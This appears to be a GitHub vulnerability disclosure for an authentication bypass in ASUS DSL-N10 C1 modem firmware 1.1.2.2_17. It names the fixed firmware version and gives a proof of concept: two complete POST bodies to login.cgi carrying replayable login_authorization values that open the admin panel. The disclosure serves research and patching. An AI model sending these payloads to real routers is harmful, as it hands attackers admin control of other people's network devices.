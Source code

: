 # ASUS DSL N10 Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team  
Date: 2018-08-06  
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/  
Sofrware version: 1.1.2.2_17  
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://< Your Modem IP >/login.cgi
 
**Send this post data:**  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
**Or this post data:**    
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

![Alt text](https://github.com/AmnBAN/ASUS-DSL-N10-Authentication-Bypass/raw/master/asus-dsl-n10-c1-admin-panel-authentication-bypass.gif)  
**Enjoy Admin panel**  

## links:
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop [RouterSploit](https://github.com/threat9/routersploit)  module for this vulnerability.

## Fix:
This issue was fixed in FW 1.1.2.3_345.
